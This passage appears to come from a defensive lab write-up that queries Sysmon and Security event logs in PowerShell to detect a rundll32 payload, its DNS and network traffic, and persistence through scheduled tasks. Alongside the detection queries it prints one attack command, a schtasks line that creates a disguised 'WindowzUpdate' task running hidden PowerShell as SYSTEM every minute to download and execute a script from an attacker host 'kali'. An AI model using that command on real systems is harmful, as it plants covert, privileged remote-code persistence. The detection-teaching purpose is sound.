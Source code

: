 ```pwsh
Get-SysmonEvent 11 | Where-Object { $_.properties[4].value -like "*rundll32.exe*" } | Format-List
```

Look for a `DnsQuery` event where the Image field contains the file `exercise_service.exe`.

```pwsh
Get-SysmonEvent 22 | Where-Object { $_.properties[7].value -like "*exercise_service.exe*" } | Format-List
```

Look for a `NetworkConnect` event within the same minute of the `DnsQuery` event where the destination IP is `192.168.51.50`

```pwsh
Get-SysmonEvent 3 | Where-Object { $_.properties[14].value -eq "192.168.51.50" } | Format-List
```

### Persisting via Scheduled Tasks

```pwsh
schtasks /query /tn MicrosoftEdgeUpdateTaskMachineCore
```

Scheduled tasks are  stored in `C:\Windows\System32\Tasks` and are accessible only with Administrative privileges. E.g., `C:\Windows\System32\Tasks\MicrosoftEdgeUpdateTaskMachineCore`

```bat
schtasks /create /tn WindowzUpdate /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://kali:8000/eviltask'''))'" /sc minute /ru System /rl HIGHEST
```

`Event 4698` indicates that a new scheduled task was installed.

```pwsh
Get-SecurityEvent 4698 "11/12/2021 7:26:00" "11/12/2021 7:27:00" | Format-List
```

Examine the `ProcessCreate` (`schtasks` command)

```pwsh
Get-SysmonEvent 1 "11/12/2021 7:26:02" "11/12/2021 7:26:04" | Format-List
```

`FileCreate` event: `C:\Windows\System32\Tasks\WindowzUpdate` file creation from `svchost.exe`

```pwsh
Get-SysmonEvent 11 "11/12/2021 7:26:02" "11/12/2021 7:26:04" | Format-List
```

`ProcessCreate` event

```pwsh
Get-SysmonEvent 1 "11/12/2021 7:29:00" "11/12/2021 7:29:30" | Format-List
```

`DNSEvent, NetworkConnect`

```pwsh
Get-SysmonEvent 22 "11/12/2021 7:29:00" "11/12/2021 7:29:30" | Format-List
Get-SysmonEvent 3 "11/12/2021 7:29:00" "11/12/2021 7:29:30" | Format-List
```
